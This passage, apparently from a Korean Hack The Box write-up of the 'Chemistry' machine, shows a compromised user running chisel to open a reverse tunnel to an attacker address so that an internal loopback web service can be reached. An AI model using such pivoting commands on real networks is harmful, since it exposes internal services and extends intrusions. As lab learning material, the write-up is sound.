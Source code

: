 8080번 포트가 열려있는 것을 확인.

웹사이트에 접속해보기 위해 포트포워딩을 한다.

룹백주소로 되어있기 때문에 포트포워드를 사용.

```bash
# 서버
./chisel_1.10.1_linux_amd64 server -p 6666 --reverse

# 클라이언트
rosa@chemistry:~$ ./chisel_1.10.1_linux_amd64 client 10.10.16.47:6666 R:8080:127.0.0.1:8080
```
# 웹사이트 enum
위와 같이 설정 후 칼리 파이어폭스 프록시 설정하고 127.0.0.1:8080에 접속하면 페이지가 보인다.

![monitoring](/assets/img/writeup/HTB/chemistry/monitoring.png)
